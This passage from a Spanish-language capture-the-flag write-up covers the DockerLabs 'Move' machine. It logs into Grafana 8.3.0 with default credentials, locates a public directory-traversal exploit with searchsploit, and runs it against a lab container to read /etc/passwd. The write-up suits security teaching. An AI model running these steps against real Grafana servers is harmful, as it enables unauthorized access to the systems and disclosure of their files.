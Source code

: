 En el puerto 3000 nos encontramos que esta desplegado Grafana:

![Desktop View](/20251027211957.webp){: width="972" height="589" .shadow}

Buscando en internet, nos encontramos que las credenciales por defecto son: `admin:admin`

![Desktop View](/20251027213244.webp){: width="972" height="589" .shadow}

Probamos a ver si podemos acceder, y parece que son correctas, ya que nos salta un formulario para cambia la contraseña por defecto:

![Desktop View](/20251027213010.webp){: width="972" height="589" .shadow}

Al acceder, vemos que la version de Grafana es la 8.3.0:

![Desktop View](/20251027212017.webp){: width="972" height="589" .shadow}

## explotación

Encontramos que la version de Grafana es vulnerable a un ataque `Directory Path Traversal` (movernos dentro de la maquina, pero con expresiones que indicamos en las peticiones al servidor web) y `Arbitrary File Read` (recuperar el contenido de ficheros del sistema):

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ searchsploit grafana 8.3.0
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                    |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                                                                       | multiple/webapps/50581.py
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

El panel de ayuda indica que únicamente debemos aportar el host donde se aloja la version vulnerable de Grafana:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ python3 exploit.py                     
usage: exploit.py [-h] -H HOST
exploit.py: error: the following arguments are required: -H
```

Vemos que efectivamente podemos leer fichero de la maquina víctima, por ejemplo, `/etc/passwd`, donde el único usuario que permite obtener una consola es `freddy`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Move]
└─$ python3 exploit.py -H http://172.17.0.2:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```